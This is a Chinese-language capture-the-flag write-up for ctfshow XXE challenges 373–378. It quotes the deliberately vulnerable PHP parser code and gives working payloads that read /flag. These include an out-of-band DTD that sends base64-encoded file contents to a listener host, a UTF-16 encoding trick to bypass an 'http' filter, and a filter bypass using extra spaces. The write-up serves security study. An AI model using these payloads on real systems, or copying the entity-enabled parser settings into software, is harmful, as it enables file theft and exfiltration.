 ```yaml
---
title: ctfshow-xxe
id: ctfshow-xxe
---
```


<!-- more -->


[从XML相关一步一步到XXE漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6887)

[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3357)

[XML外部实体（XXE）注入详解 - 渗透测试中心 - 博客园 (cnblogs.com)](https://www.cnblogs.com/backlion/p/9302528.html)

## 373

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);	#为TRUE则禁用外部实体
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
>     $creds = simplexml_import_dom($dom);
>     
>     $ctfshow = $creds->ctfshow;
>     echo $ctfshow;
> }
> highlight_file(__FILE__);    
> 
> ```
>
> 利用伪协议php://input获得传入的xml数据
>
> loadXML()接收两个参数：1、包含xml文档的字符串；2、保存libxml选项常量的按位
> 		LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
> 		LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件

payload:

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
<na0h>
<ctfshow>&a;</ctfshow>
</na0h>
```

## 374、375、376-无回显

> ```php
> <?php
> 
> error_reporting(0);
> libxml_disable_entity_loader(false);
> $xmlfile = file_get_contents('php://input');
> if(isset($xmlfile)){
>     $dom = new DOMDocument();
>     $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
> }
> highlight_file(__FILE__);    
> 
> ```

无回显，需要把数据外带出来
这里可以用python简单的搭一个静态服务器用于监听

```python
py -m http.server 6666
```

在服务器构造一个dtd文件

test.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % a "<!ENTITY &#x25; b SYSTEM 'http://xxx:6666/?x=%file;'>">
%a;
%b;
```

嵌套的`%`需要写成十六进制的`&#x25;`或者其他进制也行

payload:

```xml-dtd
<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>
```

```
这里实体c调用了外部实体test.dtd，然后调用了其中的参数实体a和b，b调用其中的file
就利用伪协议读到flag了
```

![](https://i.loli.net/2021/08/23/L4coRJm59GruVXe.png)

base64解码即可

> ```php
> if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
>     die('error');
> }
> ```
>
> 375、376过滤了XML声明，还是上面的payload就行
> 想绕过的话在中间多打几个空格也就绕过了

## 377-utf-16

```php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

过滤了http，这里改用utf-16编码发包就能绕过了

```python
import requests

url = 'http://d608152d-15f9-468d-a1f4-dfb89bde6d3a.challenge.ctf.show:8080/'
payload = """<!DOCTYPE hhh [<!ENTITY % c SYSTEM "http://xxx:6666/test.dtd">
%c;
]>"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)
```

看一下utf-8和utf-16的区别

![](https://i.loli.net/2021/08/23/aXHBIR6PYxp5D2t.png)

## 378-python X

这题是python XXE漏洞

构造一下：

```xml
<!DOCTYPE payload[
<!ENTITY a SYSTEM "file:///flag">
]>
```

![](https://i.loli.net/2021/08/23/jKVeTEWos5MD9FH.png)
